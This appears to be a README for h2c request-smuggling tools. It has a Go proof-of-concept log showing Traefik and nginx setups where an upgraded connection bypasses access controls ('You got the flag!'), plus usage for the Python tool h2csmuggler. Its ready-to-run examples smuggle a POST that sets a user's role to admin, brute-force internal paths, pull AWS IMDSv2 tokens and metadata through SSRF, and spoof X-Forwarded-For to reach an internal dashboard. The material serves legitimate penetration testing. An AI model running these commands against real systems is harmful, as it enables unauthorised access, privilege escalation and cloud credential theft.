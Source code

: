 # Golang Client

`docker-compose up` to launch Traefik, nginx, haproxy, nuster and an upgradable to h2c backend

`go run ./` to launch the client test


```
2020/09/12 16:49:11 Try Traefik HTTP
2020/09/12 16:49:11 Try to upgrade
2020/09/12 16:49:11 Switched success
2020/09/12 16:49:11 Try normal request
2020/09/12 16:49:11 Try to send another request in the upgraded connection
2020/09/12 16:49:11 same status code 401 and 401
2020/09/12 16:49:11 Seems OK (secure)
2020/09/12 16:49:11 ---------------
2020/09/12 16:49:11 Try nginx HTTP
2020/09/12 16:49:11 Try to upgrade
2020/09/12 16:49:11 Switched success
2020/09/12 16:49:11 Try normal request
2020/09/12 16:49:11 Try to send another request in the upgraded connection
2020/09/12 16:49:11 different status code 200 and 403
You got the flag!
2020/09/12 16:49:11 ---------------
2020/09/12 16:49:11 Try Traefik HTTPS
2020/09/12 16:49:11 Try to upgrade
2020/09/12 16:49:11 upgrade failed: Get "https://127.0.0.1:8443": http2: invalid Upgrade request header: ["h2c"]
2020/09/12 16:49:11 ---------------
2020/09/12 16:49:11 Try nginx HTTPS
2020/09/12 16:49:11 Try to upgrade
2020/09/12 16:49:11 Switched success
2020/09/12 16:49:11 Try normal request
2020/09/12 16:49:11 Try to send another request in the upgraded connection
2020/09/12 16:49:11 different status code 200 and 403
You got the flag!
```
# Python code
### Usage

h2cSmuggler uses a familiar curl-like syntax for describing the smuggled request:
```sh
usage: h2csmuggler.py [-h] [--scan-list SCAN_LIST] [--threads THREADS] [--upgrade-only] [-x PROXY] [-i WORDLIST] [-X REQUEST] [-d DATA] [-H HEADER] [-m MAX_TIME] [-t] [-v]
                      [url]

Detect and exploit insecure forwarding of h2c upgrades.

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  --scan-list SCAN_LIST
                        list of URLs for scanning
  --threads THREADS     # of threads (for use with --scan-list)
  --upgrade-only        drop HTTP2-Settings from outgoing Connection header
  -x PROXY, --proxy PROXY
                        proxy server to try to bypass
  -i WORDLIST, --wordlist WORDLIST
                        list of paths to bruteforce
  -X REQUEST, --request REQUEST
                        smuggled verb
  -d DATA, --data DATA  smuggled data
  -H HEADER, --header HEADER
                        smuggled headers
  -m MAX_TIME, --max-time MAX_TIME
                        socket timeout in seconds (type: float; default 10)
  -t, --test            test a single proxy server
  -v, --verbose
```
### Examples
1\. Scanning a list of URLs (e.g., `https://example.com:443/api/`, `https://example.com:443/payments`, `https://sub.example.com:443/`) to identify `proxy_pass` endpoints that are susceptible to smuggling (be careful with thread counts when testing a single server):

```
./h2csmuggler.py --scan-list urls.txt --threads 5
```

Or, to redirect output to a file. Use stderr (`2>`) and stdout (`1>`). The stderr stream contains errors (e.g., SSL handshake/timeout issues), while stdout contains results.

```
./h2csmuggler.py --scan-list urls.txt --threads 5 2>errors.txt 1>results.txt
```

2\. Sending a smuggled POST request past `https://edgeserver` to an internal endpoint:
```
./h2csmuggler.py -x https://edgeserver -X POST -d '{"user":128457 "role": "admin"}' -H "Content-Type: application/json" -H "X-SYSTEM-USER: true" http://backend/api/internal/user/permissions
```

3\. Brute-forcing internal endpoints (using HTTP/2 multiplexing), where `dirs.txt` represents a list of paths (e.g., `/api/`, `/admin/`).
```
/h2csmuggler.py -x https://edgeserver -i dirs.txt http://localhost/
```

4\. Exploiting `Host` header SSRF over h2c smuggling (e.g., AWS metadata IMDSv2):

Retrieving the token:
```
./h2csmuggler.py -x https://edgeserver -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" http://169.254.169.254/latest/api/token`
```

Transmitting the token:
```
./h2csmuggler.py -x https://edgeserver -H "x-aws-ec2-metadata-token: TOKEN" http://169.254.169.254/latest/meta-data/
```
5\. Spoofing an IP address with the `X-Forwarded-For` header to access an internal dashboard:
```
./h2csmuggler.py -x https://edgeserver -H "X-Forwarded-For: 127.0.0.1" -H "X-Real-IP: 172.16.0.1" http://backend/system/dashboard
```
# References
```
https://github.com/BishopFox/h2csmuggler
https://github.com/juliens/h2csmuggling-poc
```
